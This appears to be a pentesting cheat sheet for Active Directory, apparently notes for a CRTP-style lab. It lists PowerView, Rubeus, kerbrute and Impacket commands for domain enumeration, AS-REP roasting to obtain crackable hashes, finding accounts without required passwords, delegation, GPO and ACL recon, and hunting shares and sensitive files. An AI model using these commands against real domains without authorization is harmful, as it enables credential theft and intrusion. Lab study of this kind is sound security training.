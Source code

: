 ```yaml
---
layout: app
title: "Active Directory"
tags: ["PASSWD_NOTREQD","enumeration","unconstrain delegation","kerberos","Double-hop", "GPO","OU", "finduserdomain","asreproasting"]
section: "Active Directory"
---
```


# Create Lab

[https://jesspomfret.com/automatedlab-sql-server/](https://jesspomfret.com/automatedlab-sql-server/)

## Enable PSRemoting

```powershell
Enable-PSRemoting 
```

## Client

### Join To Domain

```powershell
Add-Computer -DomainName lab.com -Credential lab\Administrator -Force -Restart
```

### Connect to Remote Desktop

```powershell
New-PSSession -ComputerName
Start-Service WinRm
Get-Item wsman:\localhost\
Set-Item wsman:\localhost\Client\TrustedHosts -value  192.168.85.130
New-PSSession -ComputerName "IP Address"  -Credential (Get-Credential)
Enter-PSSession <Session Id>

$dc = New-PSSession -ComputerName <IP Address>  -Credential (Get-Credential)
Enter-PSSession $dc
```

# Passwords in Description Field 

```
(PowerView)> Get-DomainUser * | Select-Object samaccountname,description | Where-Object {$_.Description -ne $null}
```

# ASREPRoasting

**DONT_REQ_PREAUTH** attribute is set on user account

## Get users with DONT_REQ_PREAUTH attribute

```powershell
(PowerView)> Get-DomainUser -PreauthNotRequired | select samaccountname, userprincipalname, useraccountcontrol | fl
```
```
.\Rubeus.exe asreproast /user:<USER> /nowrap /format:hashcat
```
```bash
kerbrute userenum -d <domain> --dc <Domain IP address> <wordlists>
```
```python
Get-NPUsers.py <DOMAIN/> -dc-ip <Domain IP> -no-pass -usersfile <wordlists>
```

# PASSWD_NOTREQD
[https://blog.icewolf.ch/archive/2011/06/08/how-to-read-the-value-of-ad-attribute-useraccountcontrol/](https://blog.icewolf.ch/archive/2011/06/08/how-to-read-the-value-of-ad-attribute-useraccountcontrol/)

```
(PowerView)> Get-DomainUser -UACFilter PASSWD_NOTREQD | select samaccountname,useraccountcontrol
```


# Double-Hob

## Detect 

```powershell
 Get-AdComputer -Filter {(TrustedForDelegation -eq $True) -And (PrimaryGroupId -eq 515)} -Properties TrustedForDelegation,TrustedForDelegation,servicePrincipalName,Description

Description          :
DistinguishedName    : CN=DESKTOP-1FEQU90,CN=Computers,DC=crtp,DC=lab
DNSHostName          : DESKTOP-1FEQU90.crtp.lab
Enabled              : True
Name                 : DESKTOP-1FEQU90
ObjectClass          : computer
ObjectGUID           : 215830a5-d4df-45c3-8af2-fc6147cb239b
SamAccountName       : DESKTOP-1FEQU90$
servicePrincipalName : {RestrictedKrbHost/DESKTOP-1FEQU90, HOST/DESKTOP-1FEQU90, RestrictedKrbHost/DESKTOP-1FEQU90.crtp.lab, HOST/DESKTOP-1FEQU90.crtp.lab}
SID                  : S-1-5-21-632435846-1015186707-1740185088-1721
**TrustedForDelegation** : True
UserPrincipalName    :

```

[https://adsecurity.org/?p=1667](https://adsecurity.org/?p=1667)

[https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)

[https://github.com/tevora-threat/SharpView/](https://github.com/tevora-threat/SharpView/)

# PowerView

[https://powersploit.readthedocs.io/en/latest/Recon](https://powersploit.readthedocs.io/en/latest/Recon/)
[https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1)
## Enumeration

### [AdModule](https://github.com/samratashok/ADModule)

```powershell
Import-Module Microsoft.ActiveDirectory.Management.dll -Verbose
Get-ADDomain
```

### Get Password Policy

```powershell
(Get-DomainPolicyData).SystemAccess

(Get-DomainPolicyData).KerberosPolicy
```

### Get Domain SID

```powershell
Get-DomainSID
```

### Users

```powershell
Get-DomainUser

Get-DomainUser -Identity [username] -Properties *

Get-DomainUser -LdapFilter "Description=*built*" | Select name,Description
```

### Get Group Names of the user
```powershell
Get-DomainGroup -UserName Administrator
```

### Computers
```powershell
Get-DomainComputer
```

### Get Groups

```powershell
Get-DomainGroup 
Get-DomainGroup *admin*
```

#### Get Members of Group

```powershell
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
Get-NetGroupMember Group | Select MemberName
```


# Find Information

## Find domain Admin

Finds domain machines where specific users are logged into.


```powershell
(Powerview.ps1) Find-DomainUserLocation
```

#### Find shares on hosts in current domain

```powershell
Invoke-ShareFinder –Verbose
```

#### Find sensitive files on computers in the domain

```powershell
Invoke-FileFinder –Verbose
```

#### Get all fileservers of the domain
```powershell
Get-NetFileServer
```

# GPO

```powershell
Get-DomainGPO
Get-DomainGPO -ComputerIdentity PC001
```

### Get GPO(s) which use Restricted Groups or groups.xml for interesting users

```powershell
Get-DomainGPOLocalGroup
```

### Get users which are in a local group of a machine using GPO

```powershell
Get-DomainGPOComputerLocalGroupMapping –ComputerIdentity PC01
```

### Get machines where the given user is member of a specific group

```powershell
Get-DomainGPOUserLocalGroupMapping -Identity student1 -Verbose
```


### Get all computers from MachineOU OU
```powershell
(Get-DomainOU -Identity MachineOU).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select Name
```

### ACL

```powershell
Get-DomainObjectAcl -SamAccountName "username" -ResolveGUIDS
Get-DomainObjectAcl -SearchBase "LDAP://CN=Domain Admins, CN=Users,DC=crtp,DC=lab" -ResolveGUIDS
```
```powershell
 Find-InterestingDomainAcl -ResolveGUIDs
 Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "username"}
```


# AllowReversiblePasswordEncryption 

```powershell
Get-ADUser -Filter {AllowReversiblePasswordEncryption -eq "true"} | Select Name, sAMAccountName
```


